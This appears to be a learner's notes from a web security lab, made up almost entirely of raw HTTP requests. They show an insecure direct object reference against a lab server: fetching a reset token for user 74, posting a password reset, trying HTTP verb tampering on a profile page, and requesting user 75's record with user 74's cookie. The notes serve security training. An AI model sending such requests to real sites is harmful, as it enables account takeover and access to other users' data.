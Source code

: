 GET /settings.php HTTP/1.1
Host: 94.237.62.195:53851
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:53851/profile.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=74
Connection: close

GET /api.php/token/74 HTTP/1.1
Host: 94.237.62.195:53851
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=74
Connection: close

POST /reset.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=74
Connection: close

uid=74&token=e51a8a14-17ac-11ec-8e67-a3c050fe0c26&password=Academy_student!


## HTTP Verb Tampering

§GET§ /profile.php HTTP/1.1
PUT
POST
DELETE

--> Code 200

GET /api.php/user/75 HTTP/1.1
Host: 94.237.62.195:53851
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Referer: http://94.237.62.195:53851/profile.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=74
Connection: close
